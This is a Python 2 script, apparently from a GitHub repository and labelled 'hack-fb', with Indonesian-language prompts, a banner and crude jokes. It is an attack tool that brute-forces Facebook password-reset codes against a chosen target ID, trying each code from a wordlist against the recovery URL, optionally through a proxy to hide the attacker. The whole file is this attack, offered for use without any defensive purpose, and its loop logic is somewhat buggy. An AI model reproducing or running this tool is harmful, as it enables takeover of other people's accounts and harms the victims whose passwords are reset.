 # hack-fb
  import urllib2 ,sys ,re import os import ssl import time  def cls():     linux = 'clear'     windows = 'cls'     os.system([linux,windows][os.name == 'nt'])  cls()  os.system(['','color D'][os.name == 'nt'])  print '''                 SELAMAT DATANG                      DI                 ACEH CYBER TEAM            CODE: BY R15ky Ch4nn3L      FACEBOOK RECOVERY PASSWORD ATTACKER     _____              _                 _ |  ___|_ _  ___ ___| |__   ___   ___ | | __ | |_ / _` |/ __/ _ \ '_ \ / _ \ / _ \| |/ / |  _| (_| | (_|  __/ |_) | (_) | (_) |   &lt; |_|  \__,_|\___\___|_.__/ \___/ \___/|_|\_\                                ''' if len(sys.argv) != 3:     print "\n\n[#] Penulisan: python2 fb.py [TagetID] [listkode.txt] "     sys.exit()  target = sys.argv[1] wordlist = sys.argv[2]   while True:     print """     ============ Menu ==============     1- Reset Password Korban Dengan Proxy     2- Dengan Proxy saja          """      choice=raw_input("Masuka  Pilihan Mu: ")      if choice=="1":         try:             word = open(wordlist, 'r').readlines()             print "[+] Kode Nya Tersimpan \!/\n[+] Codes:",len(word)         except("IOError"):             print "[-] Hanya dalam Format .txt Ngentod :v"             sys.exit(1);          for w in word:             w = w.rstrip()             try:                 target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w                 get = urllib2.urlopen(target).read()                  except IOError:                 print " Gabisa Dimuat Halaman Nya :( "                  search = re.search('password_new', get)             if search:                 print "[+] Kode Yang Ini "+w+" Bener anda beuntung^___^ "             else:                 print "[+] Kode Yangini "+w+" Salah nyan >:( "     else:          print """          Selamat Datang Di Tools Saya Masukan Proxy:Port Anda Beb:*          Penggunaan : [ip:port]           """         ip_proxy=raw_input("Masukan Proxy Mu  : ")         print "[##] Proxy Terpasang : "+ip_proxy         proxy = urllib2.ProxyHandler({'http': ip_proxy})         opener = urllib2.build_opener(proxy)         urllib2.install_opener(opener)                  #ip = urllib2.urlopen('http://checkip.dyndns.org').read()         #theIP = re.findall(r"\d{1,3}\.\d{1,3}\.\d{1,3}.\d{1,3}", ip)         #print theIP         #datum = response.read()         #response.close()         #print datum         try:             word = open(wordlist, 'r').readlines()             print "[+] Kode Reset Tersimpan \!/\n[+] Kodd:",len(word)         except("IOError"):             print "[-] Yang Ini Gabisa Di Pake Anjirr !!"             sys.exit(1);          for w in word:             w = w.rstrip()             try:                 target = 'https://m.facebook.com/recover/password?u='+target+'&amp;n='+w                 get = urllib2.urlopen(target).read()                              except IOError:                 print " Yahh halaman ny gabisa dimuat :( "                      search = re.search('password_new', get)             if search:                 print "[+] Kodenya yang ini "+w+" Bener Sayang :* "             else:                 print "[+] Kode Yang Ini "+w+" Gabisa Dipakai Tod :v "
